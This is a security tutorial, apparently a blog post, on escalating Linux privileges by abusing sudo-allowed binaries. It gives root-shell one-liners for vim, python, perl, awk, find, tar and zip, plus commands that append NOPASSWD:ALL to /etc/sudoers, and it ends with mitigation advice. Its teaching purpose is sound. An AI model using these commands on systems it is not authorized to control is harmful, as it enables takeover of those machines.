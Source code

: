 ```yaml
---
title: Abusing Sudo Binaries for Privilege Escalation
published: 2025-04-19
updated:  2025-04-19
description: 'Exploiting Linux sudo misconfigurations to escalate privileges from low-level user to root access'
image: ''
tags: [Linux PrivEsc]
category: 'Privilege-Escalation'
draft: false 
lang: ''
---
```


# Table of Contents
- [Abusing Sudo Binaries](#abusing-sudo-binaries)
- [Detailed Workflow](#detailed-workflow)
  - [1. Enumerating Sudo Permissions](#1-enumerating-sudo-permissions)
  - [2. Exploiting the Allowed Binaries](#2-exploiting-the-allowed-binaries)
- [Examples of Exploitable Binaries](#examples-of-exploitable-binaries)
  - [Interactive Shells](#interactive-shells)
  - [Text Editors](#text-editors)
  - [Scripting Languages](#scripting-languages)
  - [System Utilities](#system-utilities)
  - [Exploiting File Access](#exploiting-file-access)
- [Using GTFOBins for Exploitation](#using-gtfobins-for-exploitation)
- [Real-World Scenarios](#real-world-scenarios)
- [Mitigation Strategies](#mitigation-strategies)
  - [Limit Sudo Permissions](#limit-sudo-permissions)
  - [Use NOEXEC](#use-noexec)
  - [Audit Sudo Configurations](#audit-sudo-configurations)
  - [Enforce Principle of Least Privilege](#enforce-principle-of-least-privilege)
  - [Monitor Sudo Usage](#monitor-sudo-usage)
- [Conclusion](#conclusion)

# **ABUSING SUDO BINARIES**

**Abusing Sudo Binaries** is a well-known privilege escalation technique in Linux systems. It exploits misconfigurations in the `sudo` command, allowing a user with limited privileges to execute specific binaries as a higher-privileged user, typically `root`. If such binaries are improperly restricted, they can be leveraged to gain unauthorized access or escalate privileges.
This technique is often used in **post-exploitation scenarios** where an attacker, with limited access to a system, attempts to escalate privileges to gain full control.

![Abusing Sudo Binaries - visual selection.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3c4ca823-51d1-47e2-845f-87c9b753cd1e/54c4c0ec-7491-484d-82e0-81b6df0dc727/Abusing_Sudo_Binaries_-_visual_selection.png)

### **`Detailed Workflow`**

![Abusing Sudo Binaries - visual selection(1).png](https://prod-files-secure.s3.us-west-2.amazonaws.com/3c4ca823-51d1-47e2-845f-87c9b753cd1e/58363e38-405f-478a-b190-719434805a27/Abusing_Sudo_Binaries_-_visual_selection(1).png)

### **1. Enumerating Sudo Permissions**

The first step is to determine which binaries the user can execute with `sudo`. Use the following command:

```bash
sudo -l
```

Example Output:

```bash
User amr may run the following commands on target:
(ALL) NOPASSWD: /usr/bin/vim
(ALL) NOPASSWD: /usr/bin/python3
(ALL) NOPASSWD: /usr/bin/awk
```

Key Points:

- `NOPASSWD`: No password is required to execute the command.
- `(ALL)`: The command can be run as any user, including `root`.

### **2. Exploiting the Allowed Binaries**

Certain binaries allow you to execute commands, spawn a shell, or modify system files. Here are some examples:

### **`*Examples of Exploitable Binaries*`**

### **Interactive Shells**

Some binaries allow you to directly spawn a shell.

- **bash**:

```bash
sudo bash
```

**sh**:

**Text Editors**

```bash
sudo sh
```

Many text editors have built-in commands to execute shell commands.

- **vim**:

```bash
sudo vim -c ':!bash'
```

**nano**:
In `nano`, press `Ctrl+R` followed by `Ctrl+X` to execute commands:

```bash
sudo nano
Then type: !/bin/bash

```

**less**:

```bash
sudo less /etc/hosts
Press ! and type: bash
```

### **Scripting Languages**

Scripting languages like Python, Perl, and Ruby can execute system commands.

- **Python**:

```bash
sudo python -c 'import os; os.system("/bin/bash")'
```

**Perl**:

```bash
sudo perl -e 'exec "/bin/bash";'
```

**Ruby**:

```bash
sudo ruby -e 'exec "/bin/bash";'
```

### **System Utilities**

Some utilities allow command execution or file manipulation.

- **awk**:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

**find**:

```bash
sudo find / -exec /bin/bash \;
```

**tar**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

**zip**:

```bash
sudo zip exploit.zip /tmp -T --unzip-command="sh -c /bin/bash"
```

### **Exploiting File Access**

If a binary allows editing system-critical files, it can be used to escalate privileges.

- **echo**:
    
    ```bash
    sudo echo "amr ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
    
    ```
    

tee : 

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

### **`Using GTFOBins for Exploitation`**

The GTFOBins database is an excellent resource to identify exploitable binaries. It provides ready-to-use commands for privilege escalation based on the binary's functionality.

Steps:

1. Visit the GTFOBins website.
2. Search for the binary listed in `sudo -l`.
3. Follow the provided exploitation commands.

## **`Real-World Scenarios`**

### **Scenario 1: Exploiting `vim`**

- A user has `sudo` permissions for `/usr/bin/vim`: 
 sudo vim -c ':!bash'
 
     This spawns a root shell.

Scenario 2: Exploiting find

    A user can run find with sudo:

    sudo find / -exec /bin/bash \;

    This command uses find to execute a root shell.

Scenario 3: Editing Sensitive Files

    If sudo tee is allowed:

    echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers

    This grants the user full sudo privileges.

Mitigation Strategies

    Limit Sudo Permissions:
        Avoid using ALL or NOPASSWD for binaries unless absolutely necessary.
        Only allow specific, non-exploitable commands.

    Use NOEXEC:
        Prevent certain binaries from spawning subshells by enabling NOEXEC in the sudoers configuration:

        Defaults!/usr/bin/vim noexec

    Audit Sudo Configurations:
        Regularly review the /etc/sudoers file and related configurations to identify and remove unnecessary permissions.

    Enforce Principle of Least Privilege:
        Grant users the minimum privileges required to perform their tasks.

    Monitor Sudo Usage:
        Use logging and monitoring tools to track sudo commands executed by users.

Conclusion

Abusing sudo binaries demonstrates the importance of secure configuration management and strict privilege control. By understanding how these techniques work and implementing proper mitigation strategies, system administrators can significantly reduce the risk of privilege escalation attacks.